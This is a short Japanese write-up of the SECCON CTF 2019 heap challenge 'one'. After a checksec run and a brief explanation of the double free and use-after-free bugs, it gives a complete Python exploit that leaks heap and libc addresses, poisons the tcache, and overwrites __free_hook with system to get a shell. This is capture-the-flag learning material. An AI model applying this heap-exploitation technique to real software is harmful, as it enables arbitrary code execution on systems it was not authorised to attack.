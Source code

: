 # [pwn 264pts] one - SECCON CTF 2019
64ビットバイナリで、全部有効です。
```
$ checksec -f one
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified       Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   82 Symbols     Yes      0               4       one
```
double freeやUAFがありますがmallocできるサイズは固定で、置いておけるポインタも1つだけです。
とりあえずheap leakします。libc leakするにはunsorted binに繋げる必要があるのでサイズを変更しますが、偽チャンクをいい場所に用意する必要もあるのでそれを先に用意します。あとはtcacheの管理領域をぶっ壊してサイズが書き換えられる場所に繋いでやります。libc leakできたらtcache poisoningするだけ。
```python
from ptrlib import *

def add(data):
    sock.sendlineafter("> ", "1")
    sock.sendlineafter("> ", data)
    return
def show():
    sock.sendlineafter("> ", "2")
    return sock.recvline()
def delete():
    sock.sendlineafter("> ", "3")
    return

libc = ELF("./libc-2.27.so")
#sock = Process("./one")
sock = Socket("one.chal.seccon.jp", 18357)

# leak heap
add('A')
delete()
delete()
delete()
addr_heap = u64(show())
logger.info("heap = " + hex(addr_heap))

# tamper size
add(p64(addr_heap - 0x10))
add('dummy')
add(p64(addr_heap) + p64(0xdeadbeef))

# tamper tcache
for i in range(0x11):
    add(((p64(0) + p64(0x21)) * 3)[:-1])
add('A')
delete()
delete()
delete()
delete()
delete()
add(p64(addr_heap - 0x10))
add('A' * 8)
add(p64(0) + p64(0x421) + p64(addr_heap + 0x50))
add('A' * 8)
delete()
libc_base = u64(show()) - 0x3ebc40 - 96
logger.info("libc base = " + hex(libc_base))

# tcache poisoning
add('A')
delete()
delete()
add(p64(libc_base + libc.symbol("__free_hook")))
add('dummy')
add(p64(libc_base + libc.symbol("system")))
add("/bin/sh")
delete()

sock.interactive()
```

# 感想
tcacheって感じですね。
